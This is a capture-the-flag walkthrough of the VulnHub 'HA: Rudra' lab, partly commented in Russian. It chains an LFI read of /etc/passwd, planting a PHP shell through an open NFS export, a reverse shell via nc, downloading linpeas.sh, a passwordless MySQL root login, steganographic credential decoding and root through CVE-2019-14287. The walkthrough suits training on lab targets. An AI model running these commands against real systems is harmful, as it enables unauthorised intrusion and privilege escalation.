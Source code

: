 https://www.vulnhub.com/entry/ha-rudra,386/

1)nmap -sV -sC -p- 192.168.225.147
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
2049/tcp open nfs_acl
44147/tcp open mountd
44479/tcp open nlockmgr
47691/tcp open mountd
52255/tcp open mountd

2)gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir http://192.168.225.147
http://192.168.225.147/assets
http://192.168.225.147/img
http://192.168.225.147/index.html
http://192.168.225.147/index.html
http://192.168.225.147/robots.txt

80-port

1)curl 192.168.225.147/robots.txt  
 nandi.php

2)curl 192.168.225.147/nandi.php

    its empty, hmmmmm maybe you need a parameter in the request

3)curl 192.168.225.147/nandi.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
....
rudra:x:1000:1000:rudra,,,:/home/rudra:/bin/bash
....
mahakaal:x:1001:1001:,,,:/home/mahakaal:/bin/bash
....
shivay:x:1002:1002:,,,:/home/shivay:/bin/bash

2049-port

1)showmount -e 192.168.225.147
Export list for 192.168.225.147:
/home/shivay \*

2.       mkdir /tmp/mar
        mount 192.168.225.147:/home/shivay /tmp/mar
        ls -al /tmp/mar
            .bash_logout
            .bashrc
            mahadev.txt
            .profile

    3)cp /root/shell.php /tmp/mar

80-port

1.  rlwrap nc -nlvp 1234
    curl 192.168.225.147/nandi.php?file=/home/shivay/shell.php

22-port

1.  python3 -c "import pty;pty.spawn('/bin/bash');"
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

2.  <on-victim-machine>cd /tmp
    <on-own-machine>python3 -m http.server
    <on-victim-machine>wget 192.168.225.128:8000/linpeas.sh

3.  chmod +x linpeas.sh
    ./linpeas.sh
    ....  
     ═╣ MySQL connection using root/NOPASS ................. Yes

4.  mysql -uroot
    show databases;
    ...
    mahadev
    use mahadev;
    show tables;
    hint
    select \* from hint;
    +---------------------------+
    | check on media filesystem |
    +---------------------------+
    exit;

5.  ls -al /media
    creds
    hints

    cat /media/creds
    😴
    😬
    😥
    😭
    🐼
    😬
    🙈
    😕
    🐼
    😬
    🐵
    😊
    😀
    😻
    😥
    😓
    🐼
    😅
    😕
    😕
    😀
    🙊
    😾
    😕
    😝
    😛
    🙎
    🙎

    cat /media/hints
    https://www.hackingarticles.in/cloakify-factory-a-data-exfiltration-tool-uses-text-based-steganography/

          without noise

6.  <on-own-machine>
     python2 cloakifyFactory.py
         Selection: 2
         Enter filename to decloakify (e.g. /foo/bar/MyBoringList.txt): /root/test
         Save decloaked data to filename (default: 'decloaked.file'): /root/test1
         Preview cloaked file? (y/n default=n): 
         Was noise added to the cloaked file? (y/n default=n):
         Enter cipher #: 20
     cat /root/test1
         mahakaal:kalbhairav

22-port

ssh mahakaal@192.168.225.147

1.  sudo -l
    (ALL, !root) /usr/bin/watch

сначала я подумала, что надо стать rudra для дальнейшего повышения привиллегий
sudo -u rudra watch -x sh -c 'reset; exec sh 1>&0 2>&0'
но это мне ничем не помогло

при запуске linpeas.sh я заметила, что предлагаются различные способы повышения привиллегий через sudo, проверим как на уязвимость этот сервис

    sudo --version
        Sudo version 1.8.21p2

Это уязвимая версия, я легко нашла в интернете способ повышения привиллегий (CVE-2019-14287)
sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0'

    cat /root/final.txt
        ....
        !! Congrats you have finished this task !!

lfi,vulnerable_version_sudo
